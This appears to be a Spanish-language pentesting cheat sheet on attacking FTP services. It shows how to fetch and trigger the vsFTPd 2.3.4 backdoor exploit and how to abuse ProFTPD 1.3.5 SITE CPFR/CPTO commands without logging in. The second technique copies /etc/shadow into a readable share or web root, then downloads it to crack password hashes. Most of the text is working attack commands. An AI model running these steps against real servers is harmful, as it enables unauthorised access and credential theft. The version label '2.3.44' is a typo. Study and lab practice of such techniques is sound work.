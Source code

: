 <br>
Con el comando `` searchsploit -m unix/remote/49757.py `` copias el exploit a la ruta actual de trabajo.

```bash
searchsploit vsFTPd 2.3.44 -> unix/remote/49757.py -> Backdoor Command Execution
          nc <ip-address> 21 -> USER test:)
	  		     -> PASS pass
          ftp <ip-address> -> test:) 
	  		   -> pass
```

<br><br>
En la versión 1.3.5 de FTP existe una vulnerabilidad que te permite copiar archivos del sistema (CPFR y CPTO) a una ruta que tenga capacidad de lectura (anonymous) haciendo uso del comando `` site cpfr `` y `` site cpto `` sin que tengas que llegar a autenticarte al protocolo FTP.
<br><br>

Uso:
```bash
ftp <ip-address>
-<><>-OK
Name: anonymous
Password:             # Dar enter sin ingresar nada.
530 Login incorrect.
Login failed.
ftp> help	# Con el comando help podras ver los demas comandos que estan disponibles dentro del servicio FTP.
ftp> site help
214-The following SITE commands are recognized
CPFR <sp> pathname 
CPTO <sp> pathname
```

<br>
Para copiar un archivo que como ejemplo sería el archivo /etc/shadow a la ruta /home/\<username\>/share, que en este caso es donde se ha montado el recurso compartido "anonymous" y ademas tiene capacidad de lectura. Para replicar esto en otra máquina tendrías que ver la ruta donde está montado el recurso compartido.

<br><br>
Nota: Tambien puedes copiar los archivos en la ruta /var/www/html/ seguido del nombre del archivo con el cual lo vas a guardar, siempre y cuando tenga abierto el puerto 80 o 443.
	
```bash
site cpfr /etc/shadow	                        
# Es la ruta donde se situa el archivo que quieres copiar.

site cpto /home/<username>/share/<file_name>	
# Es la ruta a donde se copiará el archivo y <file_name> el nombre con el cual se guardará.
```

<br>
Finalmente lo que tendrías que hacer es listar los recursos compartidos con smbmap y descargar el /etc/shadow para crackear los hashes.
